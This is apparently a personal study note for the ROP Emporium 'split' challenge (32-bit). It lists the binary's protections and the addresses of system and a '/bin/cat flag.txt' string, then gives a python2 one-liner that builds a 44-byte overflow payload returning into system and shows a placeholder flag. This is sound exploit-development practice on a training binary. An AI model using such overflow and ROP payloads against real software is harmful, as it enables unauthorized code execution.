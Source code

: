 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# Contents
***
- Task Description
- 32 bit

## Task Description

The elements that allowed you to complete ret2win are still present, they've just been split apart.  
Find them and recombine them using a short ROP chain.

## 32 bit

File Checks
32 bit ELF with no canaries
To get the flag we need to create a chain where it first calls system and then /bin/cat flag.txt
/bin/cat flag.txt has a memory addr of 0x804a030
and for the system call it is 0x0804861a
The buffer size is 44 bytes

Generate the payload
```bash
python2 -c 'print "A"*44 +"\x1a\x86\x04\x08"+"\x30\xa0\x04\x08"' > payload
```

Then pass it in and get the flag
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 11-10-2022
Last modified date: Tuesday 11th October 2022
***
